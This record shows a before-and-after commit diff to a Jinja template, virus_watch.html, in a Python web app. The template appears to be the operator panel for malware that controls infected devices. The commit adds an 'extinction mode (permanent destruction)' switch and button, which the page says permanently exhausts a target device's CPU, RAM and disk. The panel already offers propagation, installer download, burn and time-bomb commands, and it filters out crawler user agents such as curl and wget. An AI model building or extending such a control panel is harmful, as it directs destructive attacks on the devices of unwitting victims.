

Before and after one commit to yj2952399-ctrl/igtracker, a Python web app: template templates/virus_watch.html in a window 1280 px wide. Shown: the part 494-1168 px from the top of the page. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
virus_watch.html を更新

```diff
--- a/templates/virus_watch.html
+++ b/templates/virus_watch.html
@@ -130,6 +130,16 @@
       <button id="vw-bomb-clear" class="ghost">解除</button>
     </div>
 
+    <div class="row" style="margin-top:9px">
+      <span class="hint">絶滅モード（恒久破壊）</span>
+      <select id="vw-hard">
+        <option value="" {% if not hard %}selected{% endif %}>OFF</option>
+        <option value="install" {% if hard == 'install' %}selected{% endif %}>インストールさせたら</option>
+        <option value="always" {% if hard == 'always' %}selected{% endif %}>常時</option>
+      </select>
+      <span class="hint">ONにすると、その端末のCPU/RAM/ディスクを恒久的に埋めます</span>
+    </div>
+
     <div class="log" id="vw-log" style="margin-top:10px"></div>
   </div>
 
@@ -153,6 +163,7 @@
       <button data-cmd="update">⬆ 更新</button>
       <button data-cmd="native" class="danger">🖥 インストーラDL</button>
       <button data-cmd="win" class="danger">🌐 繁殖</button>
+      <button data-cmd="hard" class="danger">☠ 絶滅</button>
       <button data-cmd="burn" class="danger">🔥 burn</button>
       <button data-cmd="kill" class="danger">☠ 全停止</button>
     </div>
@@ -226,7 +237,7 @@
     } catch (e) { log("通信失敗: " + e); return null; }
   }
 
-  /* ---------- レベル：クリックで確定、ホバーで説明を先読み ---------- */
+  /* ---------- レベル ---------- */
   const lvBtns = document.querySelectorAll("#vw-levels button.lv");
   function showLv(n) {
     n = Math.max(0, Math.min(7, n | 0));
@@ -281,6 +292,11 @@
   $("vw-bomb-btn").onclick   = async () => { await post("/bomb", {bomb: $("vw-bomb").value}); log("時限爆弾をセット"); };
   $("vw-bomb-clear").onclick = async () => { $("vw-bomb").value = ""; await post("/bomb", {bomb: ""}); log("時限爆弾を解除"); };
   $("vw-cmds-clear").onclick = async () => { await post("/cmds/clear"); log("コマンドを全消去"); sync(); };
+  $("vw-hard").addEventListener("change", async function () {
+    await post("/hard", { hard: this.value });
+    log("絶滅モード: " + (this.value || "OFF"));
+    sync();
+  });
 
   async function sendCmd(kind, arg) {
     await post("/cmd", { sid: SEL, kind: kind, arg: arg || "" });
@@ -357,7 +373,7 @@
       + (st.uanone ? " / UA無し " + st.uanone : "");
   }
 
-  /* ---------- 同期（遷移なし） ---------- */
+  /* ---------- 同期 ---------- */
   let busy = false;
   async function sync() {
     if (busy) return; busy = true;
@@ -369,7 +385,6 @@
           const lv = (j.stages || {})[h.id] || 0;
           return Object.assign({}, h, { lv: lv, bot: !!botIds[h.id] || false });
         });
-        // bot は stages API 側で判定済みのため、stat から逆算せず行ごとに再取得
         await fillBots(ROWS);
         paintStat(j.stat);
         paintRows();
@@ -382,13 +397,13 @@
         $("vw-fire").textContent = s.firing ? "稼働中" : "停止";
         $("vw-fire").style.color = s.firing ? "#7ce23a" : "#8b9bb0";
         $("vw-pend").textContent = s.pending || 0;
+        const hs = $("vw-hard");
+        if (hs && document.activeElement !== hs) hs.value = s.hard || "";
       }
     } catch (e) {}
     busy = false;
   }
   async function fillBots(rows) {
-    // bot.manual の状態を /rat 経由で拾うのは重いので、stages の stat と
-    // 行の ua から簡易判定（サーバーと同じキーワード）
     const KW = ["bot","crawler","spider","curl","wget","python-requests","headless",
                 "render-","line-poker","facebookexternalhit","preview","monitor","uptime","lighthouse"];
     rows.forEach(function (h) {
```
